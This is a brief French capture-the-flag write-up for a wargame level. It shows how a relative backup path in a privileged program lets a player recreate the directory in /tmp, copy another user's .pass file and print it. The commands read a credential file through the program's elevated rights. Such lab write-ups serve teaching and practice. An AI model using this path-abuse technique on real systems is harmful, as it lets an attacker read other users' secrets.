

# Level08:

Pour ce niveau on peut voir un chemin relatif `./backups/` dans le `main()`,
nous pouvons donc exploiter le chemin relatif depuis le dossier `tmp` en recreeant le dossier avec la commande ci-dessous:

`cd /tmp`
`mkdir -p backups/home/users/level09/`

Maintenant il suffit simplement de demander au programme de copier le fichier /home/users/level09/.pass a l'aide du programme:

`~/level08 /home/users/level09/.pass`

Et on peut l'afficher.
`cat ./backups/home/users/level09/.pass`

